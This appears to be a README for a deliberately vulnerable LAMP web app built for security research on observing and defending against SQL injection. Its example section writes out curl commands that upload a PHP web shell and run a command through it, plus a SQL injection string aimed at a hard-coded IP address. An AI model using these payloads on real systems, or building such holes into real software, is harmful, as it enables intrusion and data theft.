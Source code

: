 # Web Server

## Requirements

For example, the exemplar assumes SQL injection is possible on the vendor web portal, **the web application where the contractor can submit invoices to the enterprise**. Additionally, the exemplar assumes a misconfiguration of the SQL server; in this example, **the SQL server is a Microsoft SQL server running with administrator privileges and has PowerShell enabled, allowing for command line interaction with the server.** The SQL injection will have a different level of observability and different set of defense tactics than network reconnaissance. This enables researchers to explore strategies such as focusing defensive tactics on increasing attack observability.

### To-Do List

- [ ] test new sql file
- [ ] set password in the insertion of data
- [ ] test display
- [ ] test sql injection
- [ ] automate sql injection
- [ ] all done!

### LAMP

- Linux
- Apache Web Server
- MySQL Database Server
- PHP: backend programming language

### Database

#### Table&Column

- user
- user_group
- target_order

### Web Pages

- [login/register](https://www.tutorialspoint.com/php/php_mysql_login.htm)
- welcome
- search
- user profile(for photo uploading)



## SQL injections example

#### 1. Shell Injection

```shell
$ curl -F "image=@path/shell.php" http://IP_address/upload.php
$ curl -X GET  http://IP_address/images/shell.php\?cmd\=uname
```

#### 2. SQL Injection 




```shell
input query string: `anything%' OR 'x' LIKE '%x`
$ curl -X GET  http://52.37.128.197/index.php?query=anything%25%27+OR+%27x%27+LIKE+%27%25x
```



## Extensibility

1. Create your own database using your sql file
2. Modify the PHP source files, including functions and the level of security 



## References

[SQL injection](http://php.net/manual/en/security.database.sql-injection.php)